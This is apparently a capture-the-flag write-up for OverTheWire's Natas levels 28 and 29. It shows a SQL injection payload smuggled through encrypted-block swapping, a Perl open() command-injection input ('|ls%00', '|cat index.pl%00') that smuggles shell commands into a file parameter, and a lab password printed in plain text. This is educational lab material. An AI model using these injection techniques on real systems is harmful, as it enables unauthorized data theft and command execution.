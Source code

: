 After running it I noticed that the escape backslash and the single quote character `'` match, with the third block being `I5F6VCqpwV1FClOSe+OGDl`. This means that the website is replacing every `'`  with `\'`. Luckily, it's our only character being escaped, and it only has to be on the front, so we can just replace it with our 10-space block `ItlMM3qTizkRB5P2zYxJsb`.

To do this, I planned on using this SQL injection attack: `' UNION SELECT ALL password FROM users;#`. The table is based on last level's SQL table. I also need to put the 9 spaces on the front, so the query we need to search for is `         ' UNION SELECT ALL password FROM users;#`.

The query we get is `G+glEae6W/1XjA7vRm21nNyEco/c+J2TdR0Qp8dcjPI5F6VCqpwV1FClOSe+OGDl+76GKJOY6adng39QUMPprGe5X2vrsM8BRZAxT9Bt8cnA2yS1J0uiEtGwbpkMjbKfSHmaB7HSm1mCAVyTVcLgDq3tm9uspqc7cbNaAQ0sTFc=` All we need to do is to replace the blocks as mentioned before. Our new query is `G+glEae6W/1XjA7vRm21nNyEco/c+J2TdR0Qp8dcjPItlMM3qTizkRB5P2zYxJsb+76GKJOY6adng39QUMPprGe5X2vrsM8BRZAxT9Bt8cnA2yS1J0uiEtGwbpkMjbKfSHmaB7HSm1mCAVyTVcLgDq3tm9uspqc7cbNaAQ0sTFc=`. 

After URL encoding the final website should be `http://natas28.natas.labs.overthewire.org/search.php/?query=G%2BglEae6W%2F1XjA7vRm21nNyEco%2Fc%2BJ2TdR0Qp8dcjPItlMM3qTizkRB5P2zYxJsb%2B76GKJOY6adng39QUMPprGe5X2vrsM8BRZAxT9Bt8cnA2yS1J0uiEtGwbpkMjbKfSHmaB7HSm1mCAVyTVcLgDq3tm9uspqc7cbNaAQ0sTFc%3D` Visit it and we will get the password for natas29.

```
Whack Computer Joke Database
    31F4j3Qi2PnuhIZQokxXk1L3QT9Cppns
```

I'd have no idea how to do this level if not for [this video](https://www.youtube.com/watch?v=oWmfYgCYmCc)

# 29

```
Username: natas29
URL:      http://natas29.natas.labs.overthewire.org
```

This website has a dropdown with a bunch of files called `perl underground X`, X being from 1 to 5. Apparantly it includes stuff about Perl in general, also some rants and evangelism on perl (for some reason i cannot find anything about Perl Underground on google except for the same text files, shame).  This was completely unrelated to the challenge though, so I decided to just look at ways to do bash command injection using perl.

Since the `file` variable includes the file name, you can pass commands through that. Apparantly one way you can do this is by posting the value as `|(cmd)%00`, so you can do `index.pl?file=|ls%00` to get the files in the directory, for example. 

However, trying to access `/etc/natas_webpass/natas29` just returns `meeeeeep!`. According to the source code of index.pl (which you can access by doing `index.pl?file=|cat index.pl%00`) it shows that posting anything that includes `natas` will fail.

```perl
if(param('file')){
    $f=param('file');
    if($f=~/natas/){
        print "meeeeeep!<br>";
    }
    else{
        open(FD, "$f.txt");
        print "<pre>";
        while (<FD>){
            print CGI::escapeHTML($_);
        }
        print "</pre>";
    }
}
```
